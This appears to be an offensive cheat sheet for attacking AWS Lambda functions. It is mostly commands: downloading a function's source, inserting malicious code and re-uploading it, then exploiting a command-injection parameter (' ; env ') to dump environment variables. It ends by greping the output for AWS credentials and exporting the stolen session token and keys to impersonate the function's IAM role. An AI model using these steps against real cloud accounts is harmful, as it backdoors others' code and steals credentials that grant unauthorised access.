# Code Injection

## Upload malicious code

Download source code, unzip the archive alter the source code and create a new archive containing the malicious code

```
wget $(aws lambda get-function --function-name "<function>" --query Code.Location --output text) -O "./source.zip"
mkdir dump
unzip "source.zip" -d ./dump
cd dump
<edit the source code>
zip -r ../compromised.zip ./*
```

Upload the source code

```
aws lambda update-function-code --region <region> --function-name <function> --zip-file fileb://compromised.zip
```

Run code

```
aws lambda invoke --function-name <function> output.json
```

Run with parameters. Use the payload switch and specify your parameters inside a json file

```
aws lambda invoke --function-name <function> --payload fileb://<path>.json output.json
```

## RCE to IAM Role Compromise

Create a payload json file like follows

```
{
    "<vunerable param>": " ; env "
}
```

Invoke Lambda function with specified payload and store output in json file

```
 aws lambda invoke --function-name <function name> --payload fileb://payload.json output.json
```

Search for credentials in output

```
cat output.json | jq -r . | grep AWS
```

Configure local account to impersonate role

```
export AWS_SESSION_TOKEN=<session token>
export AWS_SECRET_ACCESS_KEY=<access key value>
export AWS_ACCESS_KEY_ID=<access key name>
```

